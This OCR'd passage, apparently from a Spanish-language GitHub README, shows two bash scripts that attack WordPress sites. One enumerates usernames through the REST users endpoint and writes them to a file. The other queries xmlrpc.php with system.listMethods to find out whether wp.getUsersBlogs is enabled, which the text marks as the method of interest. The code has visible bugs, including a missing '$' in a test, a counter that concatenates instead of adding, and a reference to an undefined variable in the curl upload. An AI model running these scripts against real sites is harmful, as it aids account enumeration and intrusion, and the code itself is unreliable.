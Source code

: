 
```shell
#!/bin/bash

if [[ -z $@ ]]; then
    echo "Modo de uso: $0 HOST"
    exit 1
fi

host="$1"
usuario="A"
i=0
while [[ -n $usuario ]]; do
    usuario=$(curl -s $host/wp-json/wp/v2/users | jq ".[$i][\"slug\"]" | tr -d '"')
    if [[ $usuario == "null" ]]; then
        exit 0  

    elif [[ -z usuario ]]; then
        if [[ -z usuario=$(curl -s "$host/?rest_route=/wp/v2/users" | jq .[$i][\"slug\"] | tr -d '"') ]]; then
            echo "[x] No se encontraron usuarios :c"
            exit 1
        fi
    fi

    echo "[+] Usuario: $usuario"
    echo $usuario >> usuarios-wp.txt
    i=$i+1
done
```

### getMethods.sh

Para este script necesitamos utilizar `xmlrpc.php` el cual es un sistema que permite actualizaciones remotas a WordPress desde otras aplicaciones, concretamente utilizaremos `system.listMethods` para listar todos los métodos permitidos, sin embargo, solo nos interesa que esté habilitado ***wp.getUsersBlogs***


```shell
#!/bin/bash

if [[ -z $@ ]]; then
	echo "Modo de uso: $0 HOST"
	exit 1
fi

host=$1

echo "
<methodCall>
	<methodName>system.listMethods</methodName>
</methodCall>
" > datos.xml

curl -s "$host/xmlrpc.php" -d @$datos_xml
rm datos.xml
```
